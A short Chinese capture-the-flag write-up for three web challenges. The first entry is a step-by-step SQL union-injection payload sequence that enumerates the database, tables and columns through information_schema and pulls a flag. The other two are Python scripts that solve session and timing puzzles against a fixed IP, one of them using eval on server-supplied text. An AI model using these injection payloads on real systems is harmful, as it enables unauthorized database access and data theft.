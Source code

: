 ### 成绩单
```sql
id=0'||1 order by 5 #
id=0'||1 order by 4 #
id=0' union select 1,2,3,4 #
id=0' union select 1,2,3,database() #           -- skctf_flag
id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema= 0x736b6374665f666c6167 #   -- fl4g,sc
id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name= 0x666c3467 #   -- skctf_flag
id=0' union select 1,2,3,skctf_flag from fl4g #                     '
```

<br>

### 秋名山老司机
利用python脚本跑出flag即可，需要运行多次
```python
import requests
import re

url = "http://120.24.86.145:8002/qiumingshan/"
s = requests.Session()
response = s.get(url).text
data = re.findall(r"<div>(.*)</div>", response)
print(data)
value = eval(data.pop().split("=")[0])
print(value)
datas = {"value": value}
print(s.post(url, data=datas).text)
```
<br>

### 速度要快
需要注意的就是两次base64编码，以及保持Session
```python
import requests
import base64

s = requests.Session()
url = "http://120.24.86.145:8002/web6/"
data = s.get(url).headers["flag"]
print(data)
data = str(base64.b64decode(data), encoding="utf-8")
print(data)
data = base64.b64decode(data.split(": ")[1])
print(data)
data = {"margin": data}
print(s.post(url, data=data).text)
```

<br>
